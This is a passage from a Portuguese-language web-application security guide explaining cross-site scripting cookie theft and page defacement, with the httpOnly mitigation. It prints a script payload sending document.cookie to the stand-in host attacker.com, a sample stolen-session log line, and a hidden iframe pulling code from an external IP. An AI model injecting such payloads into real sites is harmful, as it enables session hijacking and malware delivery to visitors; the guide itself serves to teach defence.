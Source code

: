 ##### Roubo de Cookies

Até agora, esses exemplos não causam nenhum dano, então vamos ver como um atacante pode roubar o cookie do usuário (e assim sequestrar a sessão do usuário). Em JavaScript, você pode usar a propriedade `document.cookie` para ler e gravar o cookie do documento. O JavaScript aplica a mesma política de mesma origem, o que significa que um script de um domínio não pode acessar cookies de outro domínio. A propriedade `document.cookie` contém o cookie do servidor web de origem. No entanto, você pode ler e gravar essa propriedade se incorporar o código diretamente no documento HTML (como acontece com o XSS). Injete isso em qualquer lugar de sua aplicação web para ver seu próprio cookie na página de resultado:

```html
<script>document.write(document.cookie);</script>
```

Para um atacante, é claro, isso não é útil, pois a vítima verá seu próprio cookie. O próximo exemplo tentará carregar uma imagem da URL http://www.attacker.com/ mais o cookie. Obviamente, essa URL não existe, então o navegador não exibe nada. Mas o atacante pode revisar os arquivos de log de acesso do seu servidor web para ver o cookie da vítima.

```html
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
```

Os arquivos de log em www.attacker.com serão lidos assim:

```
GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
```

Você pode mitigar esses ataques (de maneira óbvia) adicionando a flag **httpOnly** aos cookies, para que `document.cookie` não possa ser lido pelo JavaScript. Cookies somente HTTP podem ser usados a partir do IE v6.SP1, Firefox v2.0.0.5, Opera 9.5, Safari 4 e Chrome 1.0.154 em diante. Mas outros navegadores mais antigos (como WebTV e IE 5.5 no Mac) podem realmente fazer com que a página falhe ao carregar. Esteja ciente de que os cookies [ainda serão visíveis usando Ajax](https://owasp.org/www-community/HttpOnly#browsers-supporting-httponly), no entanto.

##### Desfiguração

Com a desfiguração de páginas da web, um atacante pode fazer muitas coisas, por exemplo, apresentar informações falsas ou atrair a vítima para o site do atacante para roubar o cookie, credenciais de login ou outros dados sensíveis. A maneira mais popular é incluir código de fontes externas por meio de iframes:

```html
<iframe name="StatPage" src="http://58.xx.xxx.xxx" width=5 height=5 style="display:none"></iframe>
```

Isso carrega HTML e/ou JavaScript arbitrários de uma fonte externa e os incorpora como parte do site. Este `iframe` foi retirado de um ataque real a sites italianos legítimos usando o [framework de ataque Mpack](https://isc.sans.edu/diary/MPack+Analysis/3015). O Mpack tenta instalar software malicioso por meio de falhas de segurança no navegador da web - com muito sucesso, 50% dos ataques têm êxito.

Um ataque mais especializado poderia sobrepor todo o site ou exibir um formulário de login que se parece com o original do site, mas transmite o nome de usuário e a senha para o site do atacante. Ou poderia usar CSS e/ou JavaScript para ocultar um link legítimo na aplicação web e exibir outro em seu lugar, que redireciona para um site falso.
